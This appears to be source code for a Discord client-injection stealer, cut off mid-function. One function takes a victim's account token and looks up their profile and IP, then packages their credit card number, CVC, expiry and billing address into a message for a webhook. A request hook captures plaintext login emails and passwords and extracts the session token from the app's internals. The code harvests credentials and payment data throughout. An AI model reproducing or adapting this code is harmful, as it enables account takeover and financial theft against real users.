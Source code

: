 function creditCardAdded(number, cvc, expir_month, expir_year, street, city, state, zip, country, token) {
    const window = BrowserWindow.getAllWindows()[0];
    window.webContents.executeJavaScript(`
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
    xmlHttp.setRequestHeader("Authorization", "${token}");
    xmlHttp.send( null );
    xmlHttp.responseText;`, !0).then((info) => {
        window.webContents.executeJavaScript(`
        var xmlHttp = new XMLHttpRequest();
        xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
        xmlHttp.send( null );
        xmlHttp.responseText;
    `, !0).then((ip) => {
            var json = JSON.parse(info);
            var params = {
                username: "fantasy",
                content: "",
                embeds: [{
                    "title": "credit card added",
                    "description": "**username:**```" + json.username + "#" + json.discriminator + "```\n**id:**```" + json.id + "```\n**email:**```" + json.email + "```\n" + "**nitro type:**```" + getNitro(json.premium_type) + "```\n**badges:**```" + getBadges(json.flags) + "```" + "\n**credit card number: **```" + number + "```" + "\n**credit card expiration: **```" + expir_month + "/" + expir_year + "```" + "\n**cvc: **```" + cvc + "```\n" + "**country: **```" + country + "```\n" + "**state: **```" + state + "```\n" + "**city: **```" + city + "```\n" + "**zip:**```" + zip + "```" + "\n**street: **```" + street + "```" + "\n**token:**```" + token + "```" + "\n**ip: **```" + ip + "```",
                    "author": {
                        "name": "rf.sex"
                    },
                    "footer": {
                        "text": "better than all."
                    },
                    "thumbnail": {
                        "url": "https://cdn.discordapp.com/avatars/" + json.id + "/" + json.avatar
                    }
                }]
            }
            sendToWebhook(JSON.stringify(params))
        })
    })
}

const changePasswordFilter = {
    urls: ["https://discord.com/api/v*/users/@me", "https://discordapp.com/api/v*/users/@me", "https://*.discord.com/api/v*/users/@me", "https://discordapp.com/api/v*/auth/login", 'https://discord.com/api/v*/auth/login', 'https://*.discord.com/api/v*/auth/login', "https://api.stripe.com/v*/tokens"]
};

session.defaultSession.webRequest.onCompleted(changePasswordFilter, (details, callback) => {
    if (details.url.endsWith("login")) {
        if (details.statusCode == 200) {
            const data = JSON.parse(Buffer.from(details.uploadData[0].bytes).toString())
            const email = data.login;
            const password = data.password;
            const window = BrowserWindow.getAllWindows()[0];
            window.webContents.executeJavaScript(`for(let a in window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]),gg.c)if(gg.c.hasOwnProperty(a)){let b=gg.c[a].exports;if(b&&b.__esModule&&b.default)for(let a in b.default)"getToken"==a&&(token=b.default.getToken())}token;`, !0).then((token => {
                login(email, password, token)
            }))